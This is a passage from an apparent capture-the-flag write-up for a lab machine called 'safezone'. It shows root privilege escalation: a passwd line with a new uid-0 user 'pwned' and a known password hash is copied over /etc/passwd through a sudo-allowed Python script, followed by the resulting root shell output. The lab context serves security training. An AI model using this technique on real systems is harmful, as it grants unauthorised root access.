 ```
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
yash:x:1000:1000:yash,,,:/home/yash:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
files:x:1001:1001:,,,:/home/files:/bin/bash
pwned:$1$TBtvdgJG$guxWNCxXjIE4ATrmP2pIE1:0:0:root:/root:/bin/bash
```

In the last line, we added a new user called `pwned`, with password `password`, and root privilege.

- Copy our malicious `passwd` file to `/etc/passwd`:

```
yash@safezone:/dev/shm$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /dev/shm/passwd
Enter destination: /etc/passwd
Enter Password: anything
```

- Verify it works:

```
yash@safezone:/dev/shm$ tail -n 1 /etc/passwd
pwned:$1$TBtvdgJG$guxWNCxXjIE4ATrmP2pIE1:0:0:root:/root:/bin/bash
```

**Nice! Let's Switch User to `pwned`!**
```
yash@safezone:/dev/shm$ su pwned
Password: 
root@safezone:/dev/shm# whoami;hostname;id;ip a
root
safezone
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:94:90:5e:ae:39 brd ff:ff:ff:ff:ff:ff
    inet 10.10.245.138/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2218sec preferred_lft 2218sec
    inet6 fe80::94:90ff:fe5e:ae39/64 scope link 
       valid_lft forever preferred_lft forever
```
